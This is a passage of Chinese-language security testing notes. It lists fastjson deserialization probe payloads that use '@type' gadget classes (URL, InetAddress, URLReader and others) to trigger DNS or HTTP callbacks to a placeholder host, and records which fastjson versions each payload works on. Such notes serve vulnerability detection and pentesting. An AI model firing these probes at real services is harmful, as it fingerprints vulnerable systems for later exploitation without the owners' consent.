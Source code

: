 实验结论：  
可用范围1.2.9  
-1.2.83  
，即fastjson版本>=1.2.9；不可用版本1.2.1-1.2.8。  
  
  
测试语句4：【fastjson>=1.2.9】  
```
Set[{"@type":"java.net.URL","val":"http://§1§.{{URL}}"}
```  
  
实验结论：  
可用范围1.2.9  
-1.2.83  
，即fastjson版本>=1.2.9；不可用版本1.2.1-1.2.8。  
  
  
测试语句5：【1.2.9<=fastjson<=1.2.47】  
```
{"name":{"@type":"java.net.InetAddress","val":"§1§.{{URL}}"}}
```  
  
实验结论：  
可用  
范围1.2.47  
以下，1.2.9  
以上，即1.2.9<=fastjson版本<=1.2.47；不可用版本1.2.83、1.2.66-1.2.80、1.2.48-1.2.62、1.2.1  
-1.2.8。  
####   
  
测试语句6：【fastjson>=1.2.9】  
```
[{"@type":"java.net.InetSocketAddress"{"address":,"val":"§1§.{{URL}}"}}]
```  
  
实验结论：  
可用范围1.2.9  
以上，即fastjson版本>=1.2.9，不可用版本1.2.1-1.2.8。  
####   
#### 测试语句7：【1.2.37<=fastjson<=1.2.68】  
```
{"a":{"@type":"java.lang.AutoCloseable","@type":"com.alibaba.fastjson.JSONReader","reader":{"@type":"jdk.nashorn.api.scripting.URLReader","url":"http://§1§.{{URL}}"}}}
```  
  
实验结论：  
可用范围1.2.68  
以下，1.2.37  
以上，即1.2.37<=fastjson版本<=1.2.68；不可用版本1.2.83、1.2.69-1.2.80、1.2.1-1.2.36。  
  
#### 测试语句8：【fastjson>=1.2.9以及fastjson=1.2.83】  
```
[{"@type":"java.lang.Exception","@type":"com.alibaba.fastjson.JSONException","x":{"@type":"java.net.InetSocketAddress"{"address":,"val":"§1§.80.{{URL}}"}}},{"@type":"java.lang.Exception","@type":"com.alibaba.fastjson.JSONException","message":{"@type":"java.net.InetSocketAddress"{"address":,"val":"§1§.83.{{URL}}"}}}]
```  
####   
  